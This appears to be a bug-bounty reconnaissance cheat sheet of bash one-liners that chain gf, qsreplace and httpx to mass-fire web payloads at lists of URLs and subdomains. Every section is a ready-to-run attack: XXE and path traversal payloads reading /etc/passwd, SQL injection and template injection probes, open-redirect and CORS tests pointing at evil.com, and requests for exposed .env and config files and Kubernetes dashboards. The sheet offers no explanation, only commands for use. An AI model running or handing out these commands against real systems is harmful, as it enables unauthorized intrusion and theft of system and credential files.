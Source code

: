 
### XML External Entity Injection (XXE)
```bash
cat all_urls.txt | gf xxe | qsreplace '<?xml version="1.0"?><!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><data>&xxe;</data>' | httpx -silent -fr 'root:x' -o xxe_poc.txt
```

### Exposed Directory Listings (Misconfig)
```bash
cat subdomains.txt | httpx -silent -path '/' -fr 'Index of' -o open_dirs.txt
```

### Kubernetes Dashboard Exposure
```bash
cat subdomains.txt | httpx -silent -path '/api/v1/namespaces/kube-system/services/https:kubernetes-dashboard:/proxy/' -mc 200 -o exposed_k8s_dashboard.txt
```

### Exposed Swagger API (Public API Docs)
```bash
cat subdomains.txt | httpx -silent -path '/swagger-ui.html' -mc 200 -o exposed_swagger.txt
```

### Open Redirect Detection
```bash
cat all_urls.txt | gf redirect | qsreplace 'https://evil.com' | httpx -silent -fr 'evil.com' -o open_redirects.txt
```

### Directory Traversal (../ Exploit)
```bash
cat all_urls.txt | gf lfi | qsreplace '../etc/passwd' | httpx -silent -fr 'root:x' -o directory_traversal.txt
```

### Server-Side Template Injection (SSTI)
```bash
cat all_urls.txt | gf ssti | qsreplace '{{7*7}}' | httpx -silent -fr '49' -o ssti_found.txt
```

### Insecure Cross-Origin Resource Sharing (CORS)
```bash
cat subdomains.txt | httpx -silent -H "Origin: https://evil.com" -fr 'https://evil.com' -o weak_cors.txt
```

### SQL Injection - Quick Payload Fire
```bash
cat all_urls.txt | gf sqli | qsreplace "' OR '1'='1" | httpx -silent -fr 'error' -o sqli_poc.txt
```

### Backup Config Files (env/config.php)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/.env\n/config.php\n/settings.py\n/config.json') -mc 200 -o leaked_configs.txt
```
